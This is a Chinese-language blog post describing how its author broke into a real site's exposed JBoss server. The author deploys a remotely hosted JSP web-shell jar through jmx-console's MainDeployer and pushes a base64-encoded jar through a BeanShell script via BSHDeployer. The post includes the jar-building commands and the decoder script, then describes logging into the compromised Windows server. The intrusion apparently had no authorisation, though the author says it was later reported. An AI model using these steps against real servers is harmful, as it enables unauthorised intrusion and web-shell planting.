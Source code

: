 ```yaml
---
layout: post 
title: "JBoss漏洞利用"
description: ""
category: security
tags: []
---
```


无意中访问j馆网站时发现这样的页面：![界面](/assets/images/jb1.jpg "界面")

很明显，网站配置存在问题，google一下，很容易就可以找到这个关于JBoss漏洞利用的[paper](securityxploded.com/JBoss%20Whitepaper.pdf)，以及一些衍生的[中文翻译](http://www.nxadmin.com/web/847.html)。好了，下面就照着paper实践就行了。

1.通过jmx-console部署恶意jar包
![MainDeployer](/assets/images/jb2.jpg)

找到MainDeployer中的deploy方法,在URL参数中填入jar包的位置。

![deploy](/assets/images/jb3.png)

>jar包制作：从[这里](http://www.vonloesch.de)下载`browser.jsp`，在linux命令行打包：

>`$jar cf browser.jar browser.jsp`

>好了，把生成的jar包丢到某个外网可以直接访问的地方就可以了。

点击invoke，提示`operation...success`之类的就ok了。

![pwnwd](/assets/images/jb4.jpg)

ok,拿下了。

2.通过BSHDeployer部署BeanShell脚本

这是上面paper中给出的第二种方法，因为在一些配置中，防火墙不允许JBoss向外部发出连接请求。而这种方法就是直接将可以直接运行的脚本放到被攻击机器上。

2.1 编写攻击的jsp（我随便找了个简单的helloworld做测试）

>$ cat h123.jsp

><%@ page language="java" contentType="text/html; charset=ISO-8859-1" pageEncoding="ISO-8859-1"%>
><!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
><html>
><head>
><meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
><title>Hello from JSP</title>
></head>
><body>
>
><% out.print("<h1>My Addition Application</h1>"); %>
><hr>
>Welcome to the addition
>Application<br>
>Current Time is : <%=new java.util.Date()%>
></body>
></html>

2.2 生成jar包

>$ jar cf h123.jar h123.jsp

2.3 利用base64对jar包进行加密

>$ base64 -w 0 h123.jar >>h123.jar.base64

2.4 编写解密脚本

<pre><code>
import java.io.FileOutputStream; import sun.misc.BASE64Decoder; String
val="2.3中加密后的jar文件内容"; BASE64Decoder decoder = new BASE64Decoder(); byte[]
byteval=decoder.decodeBuffer(val); FileOutputStream fs = new
FileOutputStream("D:\\h123.war"); fs,write(byteval); fs.close();
</code></pre>

2.5 找到BSHDeployer的createScriptDeployment

![BSHDeployer](/assets/images/jb5.png)

![createScriptDeployment](/assets/images/jb6.png)
	
	在p1处填入2.4中脚本的内容，p2处填入访问的节点如h123，点击invoke，提示`operation...success`之类就ok了。

2.6 看看效果

![效果](/assets/images/jb7.jpg)

ps:
登入这台windows
server2003后，我发现这台机器已经完全沦为了挖矿的机器，尤其是到了晚上:)

感谢j馆提供机器，充当了我第一次入侵的小白鼠，作为回报，已经将漏洞上报某云:)
